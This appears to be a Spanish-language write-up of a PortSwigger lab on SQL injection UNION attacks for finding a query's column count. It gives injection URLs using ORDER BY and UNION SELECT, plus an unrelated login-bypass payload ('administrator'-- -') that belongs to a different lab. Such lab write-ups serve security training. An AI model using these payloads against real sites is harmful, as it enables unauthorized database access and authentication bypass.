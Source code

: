 # Lab: SQL injection UNION attack, determining the number of columns returned by the query

- [Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a `SQL injection UNION` attack that returns an additional row containing null values.

---

### Explicación:

Si solo se pone una comilla da error, ya que el query se quedaría con una sola comilla, es decir, **Se encuentra un error!!!**

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a46c0863-5d12-4127-9887-7d5d1ecd7a1f)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a79c49df-b0d6-47f3-90b8-0c0c9f0e8b1b)

Ahora hay que buscar la manera que ya no regrese el error, como cerrar esa comilla extra.



## Solución:

1. En este caso la vulnerabilidad también está en categorías

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/8a87141b-dded-420f-b75f-05439d0def77)

2. Aquí encuentro el error

3.  Salgo adelante del error y hago el conteo de columnas

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle' ORDER BY 3 -- -
````

4. Acomodo las columnas

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle'  Union Select 1,2,3 -- -
````

````sql
administrator'-- -
````
````http
Username: administrator'-- -
Password: Lo que sea...
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/95856f02-84de-4067-a9af-65183b9bb6a9)





